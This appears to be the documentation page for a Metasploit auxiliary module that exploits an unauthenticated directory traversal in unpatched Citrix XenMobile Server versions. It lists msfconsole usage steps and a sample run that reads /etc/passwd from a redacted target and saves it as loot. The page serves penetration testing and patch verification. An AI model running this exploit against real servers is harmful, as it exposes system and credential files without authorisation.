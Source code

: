 ## Vulnerable Application

This module exploits an unauthenticated directory traversal vulnerability in Citrix XenMobile Server 10.12 before RP2, Citrix XenMobile Server 10.11 before RP4, Citrix XenMobile Server 10.10 before RP6 and Citrix XenMobile Server before 10.9 RP5 which leads to the ability to read arbitrary files.

## Verification Steps

1. `./msfconsole`
2. `use auxiliary/scanner/http/citrix_xenmobile_directory_traversal`
3. `set rhosts <rhost>`
4. `set rport <rport>`
5. `set ssl <true/false>`
4. `run`

## Scenarios

```
msf6 auxiliary(scanner/http/citrix_xenmobile_directory_traversal) > options 

Module options (auxiliary/scanner/http/citrix_xenmobile_directory_traversal):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   DEPTH     4                yes       Depth for Path Traversal
   FILEPATH  /etc/passwd      yes       The path to the file to read
   Proxies                    no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS    [REDACTED]   yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT     8443             yes       The target port (TCP)
   SSL       true             no        Negotiate SSL/TLS for outgoing connections
   THREADS   1                yes       The number of concurrent threads (max one per host)
   VHOST                      no        HTTP server virtual host

msf6 auxiliary(scanner/http/citrix_xenmobile_directory_traversal) > run

[+] [REDACTED]:8443 - root:x:0:0:root:/root:/bin/bash
bin:x:1:1:bin:/dev/null:/bin/false
.....

[+] File saved in: /Users/Dhiraj/.msf4/loot/20201116215810_default_[REDACTED]_xenmobile.traver_784657.txt
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
msf6 auxiliary(scanner/http/citrix_xenmobile_directory_traversal) > 
msf6 auxiliary(scanner/http/citrix_xenmobile_directory_traversal) >
```

**Reference:** https://swarm.ptsecurity.com/path-traversal-on-citrix-xenmobile-server/
